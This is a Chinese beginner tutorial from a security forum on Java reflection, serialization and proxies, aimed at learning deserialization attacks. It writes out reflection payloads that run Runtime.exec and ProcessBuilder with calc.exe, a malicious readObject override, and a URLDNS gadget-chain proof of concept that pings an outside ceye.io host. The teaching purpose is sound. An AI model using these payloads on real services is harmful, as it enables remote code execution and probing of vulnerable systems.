

# JAVA小白入门基础篇 - 先知社区

JAVA小白入门基础篇

- - -

# JAVA 反射

## 定义

什么是JAVA 反射。接下来引用一下**Y4tacker**大师傅的话

**Java反射机制是在运行状态时，对于任意一个类，都能够获取到这个类的所有属性和方法，对于任意一个对象，都能够调用它的任意一个方法和属性(包括私有的方法和属性)，这种动态获取的信息以及动态调用对象的方法的功能就称为java语言的反射机制。**

简单的说，就是通过java反射机制，我们可以获取任意类的成员方法、变量这些，同时，可以创建JAVA类实例，调用任意类方法。

还有就是想说一下这里为什么称为反射，在JAVA中，我们可以这样理解：通过new一个对象而调用其中方法的，称为"正射"，而不通过new一个对象取得其中方法的，称为"反射"。

## 学前必备小知识

### 反射的动态机制

反射机制是java实现动态语言的关键，也就是通过反射机制实现类动态加载

1、静态加载：编译时加载相关的类，如果没有就报错，依赖性过强

2、动态加载：运行时加载需要的类，如果运行时不使用该类，即使不存在也不会报错，降低了依赖性。

示例如下

```plain
import java.util.*;
import java.lang.reflect.*;
public class Main{
    public static void main(String[] args) throws Exception{
        Scanner Scanner = new Scanner(System.in);
        System.out.println("请输入key");
        String key = Scanner.next();
        switch (key){
            case "1":
                Dog dog = new dog();
                dog.cry();
                break;
            case "2":
                Class cls = Class.forName("Person");
                Object o = cls.newInstance();
                Method m = o.getMethod("hi");
                m.invoke(o);
                break;
        }
    }
}
```

此时去运行`javac Main.java`会发现无法编译成功，因为dog类已经是静态加载机制，这个需要提前加载，而这里没有，故报错，而如果有Dog类，即使没有Person类，编译也不会报错，会正常生成`class`文件，但当运行时会报错。

### 常用方法

#### forName()

**forName**方法可以获取类中的所有属性包括类名。

示例如下

```plain
Class.forName(classname): 获取classname类中的所有属性
Class qwq = Class.forName("java.lang.Runtime");
//获取Runtime类中的所有属性，并赋值给clazz类
```

#### newInstance()

书接上文，我们在示例中将`Runtime`类中的所有属性赋值给了`qwq`类，接下来我们想要调用**qwq**类中的某个方法的话，需要三步

```plain
1、对类进行实例化(实例化对象)
2、获取方法
3、执行方法
```

接下来分步进行。

第一步，是实例化对象，此时也就引入了我们的**newInstance()**方法..

对该方法进行简单解释，此方法可以实例化对象，并触发类的构造方法，所以此时的话对象就创建完成了，接下来就是获取方法了。

#### getMethod()

我们在获取完对象后，对对象中的**Public**方法获取的方式是采用*getMethod()*函数，这个函数的具体参数如下

```plain
getMethod("方法名，参数类型(如String.class)")
```

此时就可以获取到方法了，接下来我们只需要进行执行方法即可，此时也就引入了我们的最后一个函数。

#### involve()

**involve**可以执行方法，如果是一个普通方法，则`involve`的第一个参数为该方法所在的对象，如果是静态方法则第一个参数是`Null`或者该方法所在的类，第二个参数为**要执行方法的参数**。

上述只是一些常见的方法，并不是全部的，比如获取类的方法，不止有`forName`函数，接下来开始进一步讲解。

## 获取类

JAVA反射操作的是`java.lang.Class`对象，上文中提到过`Class`对象，在类被编译加载时，它会存储类的相关信息，所以我们这里需要首先获取到类。上述说了一个方法，`forName`方法，它并不是唯一的方法，还有两种常用的方法，具体如下

```plain
1、getClass(): 当上下文中存在某个类的实例化对象，我们可以通getClass()方法直接获取它的类，示例如下:
String s = "qwq";
Class cla = s.getclass();

2、类名.class: 如果已经加载了一个类，我们知道类中的一个静态变量或是其他，此时便可直接获取，示例如下:
Class cla = String.class
```

对于`forName`方法，获取类的方式如下

```plain
3、Class.forName("完整类名")，当我们知道一个类的完整类名时，可以通过静态方法Class.forName()获取
Class cla = Class.forName("java.lang.String") 
//获取java.lang.String的全部方法
```

## 获取字段

上文中说了获取类的方法，接下来说一下获取字段的方式，获取字段的话，主要用到以下两个函数

```plain
getFields()：获得某个类的所有的公共（public）的字段，包括父类中的字段。
getDeclaredFields()：获得某个类的所有声明的字段，即包括public、private和proteced，但是不包括父类的申明字段。
```

这里借用一下**Y4大师傅**的示例。

```plain
import java.lang.reflect.Field;

public class test {
    public static void main(String[] args) throws Exception {
        Class stiClass = StuInfo.class;
        // 获取public字段"age":
        System.out.println(stiClass.getField("age"));
        // 获取继承的public字段"name":
        System.out.println(stiClass.getField("name"));
        // 获取private字段"money":
        System.out.println(stiClass.getDeclaredField("money"));
        // 获得值,name.get里面参数需要该类对象，而不是.class
        Field name = stiClass.getField("name");
        System.out.println(name.get(stiClass.newInstance()));
        // 设置值
        StuInfo stuInfo = new StuInfo();
        Field money = stiClass.getDeclaredField("money");
        money.setAccessible(true);
        money.set(stuInfo,2333333);
        System.out.println(stuInfo);


    }
}

class StuInfo extends PersonInfo{
    public int age;
    private int money;

    @Override
    public String toString() {
        return "StuInfo{" +
            "name=" + name +
            ", money=" + money +
            '}';
    }
}

class PersonInfo{
    public String name = "quan9i";
}
```

这里需要说明的是**money.setAccessible(true);**这个语句，它是取消了*money*变量的特权模式，本来money是`private`的，不可被更改，访问这些，而当有这个语句后，就变的与`public`相同了（小白个人观点，可能有误）。

## 获取方法

这里涉及了四个函数，具体如下所示

```plain
1、Method getMethod(name, Class...)：获取某个public的方法（包括父类）
2、Method getDeclaredMethod(name, Class...)：获取当前类的某个方法（不包括父类）
3、Method[] getMethods()：获取所有public的方法（包括父类）
4、Method[] getDeclaredMethods()：获取当前类的所有方法（不包括父类）
```

示例如下

```plain
String name = "quan9i";
Method substring = String.class.getMethod("substring", int.class);
System.out.println(substring.invoke(name,3));
```

如果调用的方法是静态方法。那么`invoke`方法传入的第一个参数永远为`null`

```plain
// 获取Integer.parseInt(String)方法，参数为String:
Method m = Integer.class.getMethod("parseInt", String.class);
// 调用该静态方法并获取结果:
Integer n = (Integer) m.invoke(null, "23333");
System.out.println(n);
```

## 反射执行命令

`java.lang.Runtime`因为有一个`exec`方法可以执行本地命令，所以在很多的`payload`中我们都能看到反射调用`Runtime`类来执行本地系统命令，通过学习如何反射`Runtime`类也能让我们理解反射的一些基础用法。

执行的`Payload`如下

```plain
Class.forName("java.lang.Runtime").getMethod("exec", String.class).invoke(Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")),"calc");
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120102716-6d58db44-b73b-1.png)

这个的话我们其实可以把他进行拆分，这句话拆分为五段，如下所示

```plain
Class clazz = Class.forname("java.lang.Runtime");
Method execMethod = clazz.getMethod("exec", String.class);
Method getRuntime = clazz.getMethod("getRuntime")；
Object currentRuntime = getRuntime.invoke(clazz);
execMethod.invoke(currentRuntime, "calc.exe");
```

对其进行简单讲解

```plain
1、首先通过反射获取到Runtime类
2、通过反射获取到Runtime类的exec方法
3、通过反射获取到Runtime类的getRuntime方法
4、创建Runtime对象并调用exec方法
5、调用exec方法并执行命令exec "calc.exe"
```

## 一些其他引用反射的方式

-   我们刚才说到可以通过forname拿到了一个类，并且继续利用反射或实例化调用其中的方法，如果一个类没有无参构造方法或者也没有类似单例模式里的静态方法，那我们应该怎样通过反射实例化该类呢？
-   如果一个方法或构造方法是私有方法，我们应该怎么去执行它呢？

### ProcessBuilder

第一个问题，我们可以用一个新的反射方法`getConstructor`。

```plain
getConstructor(Class...)：获取某个public的Constructor；
getDeclaredConstructor(Class...)：获取某个Constructor；
getConstructors()：获取所有public的Constructor；
getDeclaredConstructors()：获取所有Constructor。
```

和getMethod类似，`getConstructor`接收的参数是构造函数的的列表类型，因为构造函数也支持重载，所以要用参数列表类型才能唯一确定一个构造函数

比如我们常用的另一种执行命令的方式ProcessBuilder，我们使用反射来获取其构造函数，然后 调用`start()`来执行命令。

接下来简单介绍一下`ProcessBuilder`.

ProcessBuilder用于创建操作系统进程，它提供一种启动和管理进程（也就是应用程序）的方法，我们可以通过实例化这个类并且通过反射调用其中的start方法来开启一个子进程 。当`getRuntime`被禁用时，可以用`ProcessBuilder`来执行命令。它有两种构造函数

```plain
public ProcessBuilder(List<String> command)
public ProcessBuilder(String... commang)
```

接下来看这个执行命令的`Payload`

```plain
Class clazz = Class.forName("java.lang.ProcessBuilder");
 ((ProcessBuilder)clazz.getConstructor(List.class).newInstance(Arrays.asList("calc.exe"))).start();
```

执行过程如下

```plain
1、首先利用反射获取ProcessBuilder类；
2、获取clazz(ProcessBuilder)形参列表为List<String> command的构造函数；
3、将获取到的构造函数利用newInstance进行实例化，调用构造函数；
4、对构造函数传入的参数为 calc.exe，并且用Arrays.asList方法将要执行的命令转为List类型；
5、返回List类型的command；
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120102833-9bb07a42-b73b-1.png)

### 如何执行私有方法

使用`getDeclared`系列方法，函数介绍如下

```plain
getConstructor(Class...)：获取某个public的Constructor；
getDeclaredConstructor(Class...)：获取某个Constructor；
getConstructors()：获取所有public的Constructor；
getDeclaredConstructors()：获取所有Constructor。
```

-   `getMethod`系列方法获取的是当前类中所有公共方法，包括从父类继承的方法；
-   `getDeclaredMethod`系列方法获取的是当前类中“声明”的方法，是实写在这个类里的，包括私有的方法，但从父类里继承来的就不包含了。

举个例子，我们之前提到过Runtime的构造方法是私有的，所以我们要通过`Runtime.getRuntime()`来获取对象，其实我们也可以直接用`getDeclaredConstructor`来获取这个私有的构造方法实例化对象，进而执行命令：

```plain
Class clazz = Class.forName("java.lang.Runtime");
        Constructor m =clazz.getDeclaredConstructor();
        m.setAccessible(true);
        clazz.getMethod("exec",String.class).invoke(m.newInstance(), "calc.exe");
```

这里我们在获取到私有方法后，要用`setAccessible()`方法使这个私有方法可以被访问，其他的就和之前介绍的反射一样了，如果不用`setAccessible()`方法修改作用域这个方法是仍然不能调用的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103025-de051d30-b73b-1.png)

# JAVA反序列化

## 学前必备小知识

JAVA反序列化中的语句涉及到了JAVA的输入流与输出流，所以这里首先讲一下JAVA的IO流，以防后续难以理解。

什么是**IO**，即**Input**和**Output**(输入与输出)，通过IO可以完成硬盘文件的**读和写**。

流的传输过程：

首先不管是输入还是输出，传输的两端都是文件和java的运行程序，所以如果想要在这二者之间进行传输，我们就需要将他们两个之间搭起来一个可以传输的通道，这样就可以实现流的传输。

### 文件流函数

首先是`FileInputStream`函数，其读取文件分为两步

```plain
1.将文件中的数据转换为流对象
2.读取流对象的数据
```

细分的话，可分为如下三步

```plain
1、创建流对象
2、读取流对象内部数据
3、关闭流对象
```

使用**read方法**读取文件，有关`read`方法的解释如下

```plain
read() 
    public int read() throws IOException 
    从此输入流中读取一个数据字节。

    如果没有输入可用，则此方法将阻塞。 

    指定者： 类 InputStream 中的 read 

    返回： 下一个数据字节；如果已到达文件末尾，则返回 -1。 

    抛出： IOException - 如果发生 I/O 错误。
reads()
允许在方法中添加一个字节数组。
这种方式很有意思，当我们设置缓冲区的值为 8 时，若文件中的字符长度超过了 8，则会换行输出。这和上面的换行实际上是异曲同工。
```

读取文件Demo

```plain
package org.example;


import java.io.*;

public class Main{

    public static void main(String[] args) throws IOException {
        File file = new File("C:\\WINDOWS\\system32\\drivers\\etc\\hosts");

        // 打开文件对象并创建文件输入流
        FileInputStream fis = new FileInputStream(file);

        // 定义每次输入流读取到的字节数对象
        int a = 0;

        // 定义缓冲区大小
        byte[] bytes = new byte[1024];

        // 创建二进制输出流对象
        ByteArrayOutputStream out = new ByteArrayOutputStream();

        // 循环读取文件内容
        while ((a = fis.read(bytes)) != -1) {
            // 截取缓冲区数组中的内容，(bytes, 0, a)其中的0表示从bytes数组的
            // 下标0开始截取，a表示输入流read到的字节数。
            out.write(bytes, 0, a);
        }

        System.out.println(out.toString());
    }

}
```

这里简单介绍一下函数

```plain
fis.read()方法是依次读取一个个字节数据，返回每个数据的整型，该方法的作用是每次读取流中的一个字节，如果需要读取流中的所有数据，需要使用循环读取。
fis.read(bytes)此方法是就实现了将流对象fis中的数据读取到字节数组bytes中,该行代码的作用是将fis流中的数据读取出来，并依次存储到数组data中，返回值为实际读取的有效数据的个数。
```

接下来介绍一下`FileOutputStream`函数

```plain
package org.example;


import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;

public class Main {

    public static void main(String[] args) throws IOException {
        // 定义写入文件路径
        File file = new File("D:/1.txt");

        // 定义待写入文件内容
        String content = "Hello World.";

        // 创建FileOutputStream对象
        FileOutputStream fos = new FileOutputStream(file);

        // 写入内容二进制到文件
        fos.write(content.getBytes());
        fos.flush();
        fos.close();
    }

}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103100-f35af8e4-b73b-1.png)

## 定义

什么是JAVA的序列化与反序列化呢，这里与PHP的序列化与反序列化是类似的。具体定义如下

```plain
JAVA序列化是指把JAVA对象转换为字节序列的过程；反序列化是指把字节序列恢复为JAVA对象的过程。
```

举个例子，比如我们送一个可拆分椅子给朋友，那么我们在送给他之前，首先需要对椅子进行拆分，使得其容易放进快递盒子里邮寄给朋友，我们将椅子拆分的过程就是序列化；当朋友接收到快递后，他想将拆分的组件变成椅子，那么它必须要将各个组件进行组装，这个组装的过程就是反序列化。

## demo

接下来我们来看一个简单的例子，这里首先自定义一个`Main`类，同时为它创建两个变量。

```plain
package org.example;


import java.io.Serializable;

public class Main implements Serializable {
    private String name;
    private int age;

    public Main(String name, int age) {
        this.name = name;
        this.age = age;
    }

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }
    @Override
    public String toString(){
        return "Main{" +
                "name='"+name+'\''+
                "age="+age+
                '}';
    }
}
```

接下来写一个进行序列化的文件，具体内容如下

```plain
package org.example;

import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutput;
import java.io.ObjectOutputStream;

public class serialize {
    public static void serialize(Object obj) throws IOException{
        ObjectOutputStream oos= new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static void main(String[] args) throws Exception{
        Main main = new Main("aa",22);
        //System.out.println(main);
        serialize(main);
    }
}
```

这里呢，serialize方法其实就是创建了一个文件输出流，将文件的内容写至`ser.bin`中，而后调用`writeObject`进行序列化。而后main方法进行了实例化对象并调用了serialize方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103115-fbd30a34-b73b-1.png)

接下来再自定义一下反序列化函数，反序列化与序列化相反即可，把**Output**换成**Input**，把**write**改为**read**，具体代码如下

```plain
package org.example;

import java.io.*;

public class unserialize {
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois= new ObjectInputStream(new FileInputStream("ser.bin"));
        Object obj = ois.readObject();
        return obj;
    }
    public static void main(String[] args) throws Exception{
        Main main = (Main) unserialize("ser.bin");
        System.out.println(main);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103729-db226d88-b73c-1.png)

此时运行程序，可以发现成功对数据进行了反序列化并输出了数据

## 漏洞成因

服务端进行反序列化数据时，会自动调用类中的`readObject`代码，给予了攻击者在服务器上运行代码的能力

## 可能形式

1、入口类的`readObject`直接调用危险函数

比如上述的例子中，我们重写**readObject**方法，添加一个弹计算器的指令

```plain
private void readObject(ObjectInputStream ois) throws Exception,ClassNotFoundException{
    ois.defaultReadObject();
    Runtime.getRuntime().exec("calc.exe");
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103132-06427090-b73c-1.png)

此时再进行反序列化

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103147-0f6260fe-b73c-1.png)

成功弹出计算器

2、入口类参数中包含可控类，该类含有危险方法，`readObject`时进行调用

3、入口类参数中包含可控类，该类调用其他有危险方法的类，`readObject`时进行调用

4、构造函数/静态代码块等类加载时隐式执行。

他们都有共同的条件

```plain
1、继承Serialize
2、入口类source(重写readObject 参数类型广泛 最好是JDK自带的)
3、调用链 gadget chain
4、执行类 sink (rce、ssrf写文件等等)
```

接下来以`HashMap`为例，说一下如何寻找可用类。

首先它需要继承有**Serializable**类，因为没有**Serializable**就无法进行序列化

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103206-1a7df5de-b73c-1.png)

可以看到类`HashMap`继承了`Serializable`

接下来寻找入口类。

点击`Strcture`，可以看到`HashMap`下的`readObject`类中存在这样一段代码

```plain
for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103222-24370746-b73c-1.png)

重点其实就是对**key**和**value**进行了`readObject`函数处理，而后将这两个变量放进了`hash`函数中，接下来跟进此方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103238-2d44eb14-b73c-1.png)

当key不为`0`时，就会给`h`赋值为`hashCode函数处理过后`的`key`方法

符合入口类的条件，即**重写 readObject 调用常见的函数**

## URLDNS实战

`URLDNS`是`ysoserial`中⼀个利⽤链的名字，这里之所以选择它来进行相关讲解是因为他足够简单，但它其实不能称为`利用链`，因为参数并非可利用的命令，而是一个`URL`，同时它触发的结果也并非命令执行，而是一次`DNS请求`。但它有以下优点:

```plain
1、使⽤ Java 内置的类构造，对第三⽅库没有依赖。
2、在⽬标没有回显的时候，能够通过 DNS 请求得知是否存在反序列化漏洞。
```

因此用它来测试反序列化漏洞是否存在是尤为合适的。

我们可以在`ysoserial`查看它的利用链

```plain
Gadget Chain:
      HashMap.readObject()
        HashMap.putVal()
          HashMap.hash()
            URL.hashCode()
```

只有寥寥几步，接下来跟着复现一下。

常见的HTTP请求使用的是URL类，URL是由HashMap的Put方法产生的，所以我们这里先跟进`Put`方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103253-36b27b3a-b73c-1.png)

从该方法中我们可以看出这里调用了`hash()`方法，所以接下来我们跟进这个方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103302-3c11c284-b73c-1.png)

这里可以看到`hashCode`处理的变量是`Key`，而`Key`则是我们`hash`中传入的参数，也就是我们写的内容

```plain
hashmap.put(new URL("http://xxx"),1);

// 传进去两个参数，key = 前面那串网址，value = 1
```

接下来我们跟进`URL`，看`URL`中的`hashCode`方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103314-42c71f52-b73c-1.png)

可以发现当`hashCode`不等于`-1`时，直接返回`hashCode`，否则就会对`handler`进行另一个类的`hashCode`方法处理，接下来跟进这个`hashCode`函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103329-4c04e2d4-b73c-1.png)

可以发现对内容进行了`getHostAddress`方法处理，继续跟进

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103343-54455c26-b73c-1.png)

根据主机名获取其IP地址，也就是对其发送了一次DNS请求。

至此，可以看出总体链如下

```plain
1、HashMap->readObject()
2、HashMap->hash()
3、URL->hashCode()
4、URLStreamHandler->hashCode()
5、URLStreamHandler->getHostAddress()
```

接下来构造Poc进行DNS请求尝试。

```plain
HashMap<URL,Integer> hashmap= new HashMap<URL,Integer>();   
hashmap.put(new URL("http://s3moz8.ceye.io"),1);

serialize(hashmap);
```

此时运行会发现，我们还没进行反序列化，在此时就直接收到DNS请求了，这是为啥呢，仔细看一下代码，会发现

```plain
PUT->hash->hashCode()
```

而URL类中的`hashCode`默认值为-1，此时到这里就会直接往下运行，也就是对URL发起了DNS请求。

这样的话我们就无法判断是反序列化出来的URLDNS，还是序列化中的URLDNS，造成了干扰，此时我们该怎么办呢，我们可以看到这里的源头是因为**put()**，所以我们可以先不发送请求

```plain
#Serialization.java
package org.example;

import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class Serialization {
    public static void Serialize(Object obj) throws IOException{
        ObjectOutputStream oos= new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static void main(String[] args) throws Exception{
        HashMap<URL,Integer> hashmap= new HashMap<URL,Integer>();
        URL url = new URL("http://s3moz8.ceye.io");
        Class c = url.getClass();
        Field hashcodefile = c.getDeclaredField("hashCode");
        hashcodefile.setAccessible(true);
        hashcodefile.set(url,1234);
        hashmap.put(url,1);
// 这里把 hashCode 改为 -1； 通过反射的技术改变已有对象的属性
        hashcodefile.set(url,-1);
        Serialize(hashmap);
    }
}
```

运行序列化文件，接下来运行反序列化文件，而后在`ceye.io`上查看是否有接收到DNS请求

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103406-623f0138-b73c-1.png)

此时可以发现成功接收到请求，证明URLDNS链构造成功。

```plain
刚刚是逆推，接下来简单正推一下
```

总体方向就是反序列化调用`hashmap`的`readobject`，`hashmap`里的`object`里调用了`putVal()`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103419-69e33314-b73c-1.png)

所以我们需要去控制这个`putVal`的值才能实现往下走，所以这个时候我们找到了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103435-736cde80-b73c-1.png)

`put`方法，这个就是我们这里为啥要`put`这个url，是为了控制`key`和`value`，然后往下走

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103449-7b7759de-b73c-1.png)

hash里调用了`key.hashCode`，hash里面是key，而这个key是我们填入的URL，所以此时就来到了URL.hashCode

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103503-84250d7e-b73c-1.png)

可以看到这个时候我们要想实现DNS请求(调用`handler.hashCode`即实现了DNS请求)，必须让他值为-1，所以，我们此时通过反射修改了hashCode值，修改它为-1

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103521-8ef43e8c-b73c-1.png)  
让他继续往下走，此时就来到了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103532-95083242-b73c-1.png)

此时即发送DNS请求。

# JAVA代理

在讲代理之前，先说一下何为代理，通俗的讲解，当我们在购买房子时，我们需要通过中介来进行，即中介从房东手中获取房源，我们通过中介了解到房屋信息，中介起到了一个中间人的作用，此时他相当于代理。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103548-9ed3c1f6-b73c-1.png)

在Java代理中，又具体分为两种，静态代理和动态代理，接下来依次进行查看。

## 静态代理

角色分析

```plain
抽象角色：一般会用接口或者抽象类来解决
真实角色：被代理的角色
代理角色：代理真实角色，代理真实角色后，一般会做一些附属操作
客户：访问代理对象的人
```

这里仍以租房为例，首先我们要租房，看到需要有一个租房的接口，也就是官方的抽象角色，其代码如下

```plain
#Rent.java
package org.example;

public interface Rent{
    public void rent();

}
```

而后呢，我们这里是房东去出租房屋，所以我们需要房东去调用这个接口并重写方法，这里的房东就是真实角色，其代码如下：

```plain
package org.example;

public class Host implements Rent{
    public void rent(){
        System.out.println("房东要出租房子");
    }
}
```

而后呢，理想的情况下，是我们直接联系到房东，买房子，此时也就是我们调用这个类生成对象，调用租房接口，此时我们就是对应客户，代码如下

```plain
package org.example;

public class Client {
    public static void main(String[] args){
        Host host = new Host();
        host.rent();
    }
}
```

此时运行就会发现

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103603-a78bc4f6-b73c-1.png)

成功得到房租要出租房子的信息，也就是我们客户成功对接上了房东，但现实的情况往往是我们联系不到房东，所以这个时候就需要中介了，中介不仅继承了租房接口，同时他会提供一些其他方法，比如，收中介费，签合同等，具体代码如下

```plain
#Proxy.java
package org.example;

public class Proxy implements Rent{
    private Host host;
    public Proxy(){
    }
    public Proxy(Host host){
        this.host=host;
    }
    public void rent(){
        seeHouse();
        host.rent();
        fare();
        hetong();
    }
    public void seeHouse(){
        System.out.println("中介带你看房");
    }
    public void fare(){
        System.out.println("收中介费");
    }
    public void  hetong(){
        System.out.println("签合同");
    }
}
```

接下来我们通过客户再次进行调用，不过此次不是直接调用房东，而是通过中介，具体代码如下

```plain
#Client.java
package org.example;

public class Client {
    public static void main(String[] args){
        Host host = new Host();
        Proxy proxy =new Proxy(host);
        proxy.rent();
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103619-b1341d3c-b73c-1.png)

此时即可实现代理

### 再深入

刚刚只有一个接口，接下来我们接近实际，这里设置四个接口，分别用于增删改查，具体代码如下

```plain
#UserService.java
package org.example.demo01;

public interface UserService {
    public void add();
    public void delete();
    public void update();
    public void query();
}
```

然后这个是一个抽象类，我们需要有具体实现它的，所以接下来写一个对象来进行调用

```plain
#UserServiceimp.java
package org.example.demo01;

public class UserServiceimp implements UserService{

    @Override
    public void add() {
        System.out.println("添加了一个用户");
    }

    @Override
    public void delete() {
        System.out.println("删除了一个用户");

    }

    @Override
    public void update() {
        System.out.println("更新了一个用户");

    }

    @Override
    public void query() {
        System.out.println("查询了一个用户");

    }
}
```

此时有需求如下：我们需要添加一个日志功能，即每次调用方法前，我们需要在方法前输出`调用了xxx方法`，这个时候该如何实现呢，方法有两种

```plain
1、在每个方法前添加Systme.out.println("调用了xxx方法");
2、添加代理类，对日志进行处理
```

基于不改动源代码的原则，且由于第一个方法过于繁琐，需要更改多处代码，所以这里选用代理来实现。接下来我们新建一个代理方法

```plain
#UserServiceProxy.java
package org.example.demo01;

public class UserServiceProxy implements UserService{
    private UserService userService;

    public void setUserService(UserServiceimp userService) {
        this.userService = userService;
    }
    @Override
    public void add() {
        log("add");
        userService.add();
    }

    @Override
    public void delete() {
        log("delete");
        userService.delete();
    }

    @Override
    public void update() {
        log("update");
        userService.update();
    }

    @Override
    public void query() {
        log("query");
        userService.query();
    }
    public void log(String msg){
        System.out.println("[Debug]使用了"+msg+"方法");
    }
}
```

接下来再写一个启动器。

```plain
#Client.java
package org.example.demo01;

public class Client{
    public static void main(String[] args){
        UserServiceimp userService = new UserServiceimp();
        UserServiceProxy proxy = new UserServiceProxy();
        proxy.setUserService(userService);
        proxy.add();
        proxy.update();
    }
}
```

此时运行即可发现成功添加了日志

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103637-bc2d0dfc-b73c-1.png)

## 动态代理

接下来换一个例子，上述例子讲解动态代理可能会较为繁琐。

这里我们首先创建一个`IUser`接口，其具体内容如下

```plain
public interface IUser {
    public void sayName();
}
```

创建完接口后，我们创建一个实现类`User`，具体代码如下

```plain
public class User implements IUser{

    @Override
    public void sayName() {
        System.out.println("tntaxin");
    }
}
```

接下来就可以写我们的动态代理类了

```plain
public class UserProxy{
    private Object target;
    public UserProxy(Object target){
        this.target = target;
    }

    public Object getProxyInstance(){
        return Proxy.newProxyInstance(this.target.getClass().getClassLoader(), this.target.getClass().getInterfaces(),
                new InvocationHandler() {
                    @Override
                    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
                        System.out.println("我是他的代理");
                        method.invoke(target, args);
                        return null; }
                });
    }
}
```

注意到`Proxy.newProxyInstance`方法，我们跟进一下

```plain
static Object    newProxyInstance(ClassLoader loader,  //指定当前目标对象使用类加载器
 Class<?>[] interfaces,    //目标对象实现的接口的类型
 InvocationHandler h      //事件处理器
) 
//返回一个指定接口的代理类实例，该接口可以将方法调用指派到指定的调用处理程序。
```

可以发现第二个参数为接口类型，这也是我们的动态代理为什么需要实现接口。

接下来看第三个参数，它是事件处理器`InvocationHandler`，实现该类必须要实现`invoke`方法

```plain
Object invoke(Object proxy, Method method, Object[] args) 
// 在代理实例上处理方法调用并返回结果。
```

这里，我们调用某个对象中的方法，一般使用反射来进行获取，因此，我们这里编写一个使用反射的测试程序来检验动态代理的效果。

```plain
public class Main
{
    public static void main( String[] args )
    {
        IUser user = new User();
        System.getProperties().put("sun.misc.ProxyGenerator.saveGeneratedFiles", "true");
//         创建动态代理
        UserProxy proxyFactory = new UserProxy(user);
        IUser userProxy2 = (IUser) proxyFactory.getProxyInstance();
        // 打印生成的代理对象的类名
        System.out.println(userProxy2.getClass());
        userProxy2.sayName();
    }
}
```

运行后结果如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120103650-c3c1de30-b73c-1.png)
